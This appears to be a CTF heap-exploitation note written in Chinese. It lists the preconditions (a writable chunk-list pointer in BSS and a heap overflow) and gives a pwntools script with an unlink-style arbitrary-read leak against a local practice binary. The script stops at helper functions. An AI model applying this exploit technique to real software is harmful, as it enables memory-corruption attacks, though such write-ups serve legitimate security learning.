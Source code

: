1. 需要一个指向 chunk list 的指针， 并且可以读写（BSS段）。
2. 有堆溢出漏洞

```python
from pwn import *
#context.log_level = 'debug'
p = process('./heap')

#指向二进制文件中的buf，buf里面保存着分配的chunk的地址
chunk_list = 0x8049d60

free_got = 0x8049ce8

flag = 0
def leak(addr):
    #"A"*0xc 覆盖减到的三个单位， 
    #p32(chunk_list-0xc) 覆盖 buf[0] ， 使其重新指向 chunk_list-0xc
    data = "A" * 0xc + p32(chunk_list-0xc) + p32(addr)
    global flag
    if flag == 0:
        set_chunk(0, data)
        flag = 1
    else:
        set_chunk2(0, data)
    res = ""
    p.recvuntil('5.Exit\n')
    res = print_chunk(1)
    print("leaking: %#x ---> %s" % (addr, res[0:4].encode('hex')))
    return res[0:4]

def add_chunk(len):
    print p.recvuntil('\n')
    p.sendline('1')
    print p.recvuntil('add:')
    p.sendline(str(len))

def set_chunk(index,data):
    p.recvuntil('5.Exit\n')
    p.sendline('2')
    p.recvuntil('Set chunk index:')
    p.sendline(str(index))
    p.recvuntil('Set chunk data:')
    p.sendline(data)

def set_chunk2(index, data):
    p.sendline('2')
    p.recvuntil('Set chunk index:')
    p.sendline(str(index))
    p.recvuntil('Set chunk data:')
    p.sendline(data)

def del_chunk(index):
    p.recvuntil('\n')
    p.sendline('3')
    p.recvuntil('Delete chunk index:')
    p.sendline(str(index))

def print_chunk(index):
    p.sendline('4')
    p.recvuntil('Print chunk index:')
    p.sendline(str(index))
    res = p.recvuntil('5.Exit\n')
    return res

```